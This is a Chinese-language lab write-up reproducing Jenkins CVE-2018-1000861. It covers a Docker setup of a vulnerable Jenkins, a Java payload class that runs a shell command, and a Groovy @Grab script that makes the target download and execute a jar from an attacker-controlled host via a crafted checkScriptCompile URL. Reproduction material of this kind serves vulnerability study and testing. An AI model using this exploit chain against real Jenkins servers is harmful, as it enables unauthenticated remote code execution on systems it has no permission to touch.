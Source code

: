 # Jenkins远程命令执行漏洞（CVE-2018-1000861）

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

## 漏洞复现

参考<https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC>，修改其中Payload.java为我们自己的POC：

```java
public class Payload {
  public Payload() {
    try {
      String payload = "touch /tmp/success";
      String[] cmds = { "/bin/bash", "-c", payload };
      java.lang.Runtime.getRuntime().exec(cmds);
    } catch (Exception e) {
    }
  }
}
```

编译成`payload-1.jar`。将其放在攻击者的服务器上，路径为`http://<EXPLOIT HOST>/package/payload/1/payload-1.jar`。

然后编写如下Groovy脚本，其中`http://<EXPLOIT HOST>`是攻击者服务器：

```
@GrabConfig(disableChecksums=true)
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')
@Grab(group='package', module='payload', version='1')
import Payload;
```

将这段代码URL编码后，作为如下URL中value参数的值`http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=<groovy-code>`，请求：

![](1.png)

此时，服务器应该受到了两个请求：

![](2.png)

目标会先请求POM文件`/package/payload/1/payload-1.pom`，如果这个文件不存在，则会请求`/package/payload/1/payload-1.jar`，也就是我们的Payload。

最后，我们的`payload-1.jar`被加载，成功执行命令：

![](3.png)
